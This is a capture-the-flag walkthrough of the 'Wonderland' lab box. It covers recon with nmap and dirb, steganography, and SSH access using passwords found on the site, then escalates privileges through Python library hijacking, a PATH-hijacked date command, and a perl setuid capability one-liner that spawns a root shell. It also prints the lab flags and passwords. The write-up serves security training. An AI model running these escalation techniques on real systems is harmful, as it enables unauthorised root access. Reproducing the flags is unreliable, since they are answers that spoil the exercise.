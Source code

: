 # Wonderland

--------------------------------------------------------------------

**TOOLS USED**: nmap

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.210.160

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.210.160
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.6p1),<br>
    80 (http Golang),<br>

Enumerate hidden directories on website
```
dirb 10.10.210.160
```

![1.2](./imgs/1.2.png)

Found: /r/a, /poem

### 2. STEGANOGRAPHY

Download images in http://10.10.210.160/img/

```
binwalk ./img/*
```

![2.1](./imgs/2.1.png)

Looks like there is data hidden in alice_door.jpg

```
steghide extract -sf alice_door.jpg
```

passphrase required

try other image
```
steghide extract -sf white_rabbit_1.jpg
```

Found hint.txt

![2.2](./imgs/2.2.png)

follow the R A B B I T

http://10.10.210.160/r/a/b/b/i/t/ leads to alice_door.png

![2.3](./imgs/2.3.png)

Inspect element on http://10.10.210.160/r/a/b/b/i/t/

![2.4](./imgs/2.4.png)

found potential ssh login

**USERNAME**: alice
**PASSWORD**: HowDothTheLittleCrocodileImproveHisShiningTail

### 3. SSH

log into ssh
```
ssh alice@10.10.210.160
```

HINT: everything is upside down

root.txt was in alice's home directory so user.txt should be in root

```
cat /root/user.txt
```

![3.1](./imgs/3.1.png)

**USER FLAG**: thm{"Curiouser and curiouser!"}

### 4. PIVOT TO RABBIT USER

Check user privileges
```
sudo -l
```

![4.1](./imgs/4.1.png)

alice can run /usr/bin/python3.6 and /home/alice/walrus_and_the_carpenter.py as rabbit

Inspect python program

imports library called random
![4.2](./imgs/4.2.png)

Calls the choice() method at the end
![4.3](./imgs/4.3.png)

Create new random.py file and test it out
![4.4](./imgs/4.4.png)

We can put in our own code in random.py and run the original python program as user rabbit

Modified random.py to spawn shell so when python program is run as rabbit it will create a shell for user rabbit
![4.5](./imgs/4.5.png)

Run program as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![4.6](./imgs/4.6.png)

```
cd /home/rabbit
file teaParty
```

![4.7](./imgs/4.7.png)

ELF file

```
./teaParty
```

![4.8](./imgs/4.8.png)

```
cat teaParty
```

![4.9](./imgs/4.9.png)

Program is executing 
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

```
ls -la teaParty
```

![4.10](./imgs/4.10.png)

Sticky bit is set so We can target the date command so it will be executed as root

### 5. PRIVILEGE ESCALATION

Create custom date script
```
mkdir bin
vim date
```

![5.1](./imgs/5.1.png)

Add to PATH and run teaParty
```
export PATH="/home/rabbit/bin:$PATH"
./teaParty
```

![5.2](./imgs/5.2.png)

Created hatter user shell

found password for hatter user<br>
**PASSWORD**: WhyIsARavenLikeAWritingDesk?

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
scp linpeas hatter@10.10.210.160:/home/hatter/linpeas
ssh hatter@10.10.210.160
chmod +x linpeas
./linpeas
```

![5.3](./imgs/5.3.png)

From https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/<br>
We can exploit perl capabilities<br>
Capabilities are granular escalated user privileges for certain programs<br>
Perl has the capability to use the setuid function in order to become root

Can also use this command to check capabilities<br>
2 is standard error
2>/dev/null redirects stderr to /dev/null
```
getcap -r / 2>/dev/null
```

![5.4](./imgs/5.4.png)

We can use this command to exploit perl capabilities<br>
-e execute command<br>
use POSIX (setuid) imports setuid<br>
POSIX::setuid(0) sets the uid to 0 (root)
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![5.4](./imgs/5.4.png)

**ROOT FLAG**: thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}